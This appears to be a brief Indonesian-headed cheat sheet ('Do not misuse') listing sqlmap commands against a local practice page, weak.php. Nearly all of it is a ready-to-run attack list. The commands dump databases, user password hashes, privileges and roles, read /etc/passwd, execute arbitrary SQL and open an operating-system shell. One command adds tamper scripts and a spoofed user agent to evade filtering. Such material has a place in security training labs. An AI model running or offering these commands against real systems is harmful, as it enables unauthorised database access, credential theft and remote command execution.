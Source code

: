 <h1>Jangan Disalah Gunakan</h1>
command :
</br>
python ./sqlmap.py -u "http://localhost/weak.php?id=10" --dbs
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" -b
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --users --passwords --privileges --roles --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --current-user --is-dba --current-db --hostname --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --file-read=/etc/passwd --threads=10
</br>
C:\xampp\htdocs
</br>
/var/www/html/
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --sql-query="select now();"
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --os-shell
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --level=3 --risk=2 --cookie="PHPSESSID:1r4fk7m10s3sj0nkbgdu1a48v0" --batch -v2 -o --keep-alive --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --no-cast --no-escape --tamper="space2comment,between"
